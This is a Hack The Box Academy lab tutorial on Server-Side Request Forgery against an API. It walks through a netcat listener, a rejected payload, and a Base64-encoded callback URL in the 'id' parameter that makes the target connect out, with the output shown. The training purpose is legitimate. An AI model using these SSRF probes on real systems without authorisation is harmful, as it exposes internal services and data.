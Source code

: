 Server-Side Request Forgery (SSRF) attacks, listed in the OWASP top 10, allow us to abuse server functionality to perform internal or external resource requests on behalf of the server. We usually need to supply or modify URLs used by the target application to read or submit data. Exploiting SSRF vulnerabilities can lead to:

- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution

We can usually find SSRF vulnerabilities in applications or APIs that fetch remote resources. Our [Server-side Attacks](https://academy.hackthebox.com/module/details/145) module covers SSRF in detail.

As we have mentioned multiple times, though, we should fuzz every identified parameter, even if it does not seem tasked with fetching remote resources.

Let us assess together an API that is vulnerable to SSRF.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api/userinfo`.

Let us first interact with it.

  Server-Side Request Forgery (SSRF)

```shell-session
Pangulin@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

The API is expecting a parameter called _id_. Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.

  Server-Side Request Forgery (SSRF)

```shell-session
Pangulin@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.

  Server-Side Request Forgery (SSRF)

```shell-session
Pangulin@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.

  Server-Side Request Forgery (SSRF)

```shell-session
Pangulin@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
Pangulin@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

  Server-Side Request Forgery (SSRF)

```shell-session
Pangulin@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

As time allows, try to provide APIs with input in various formats/encodings.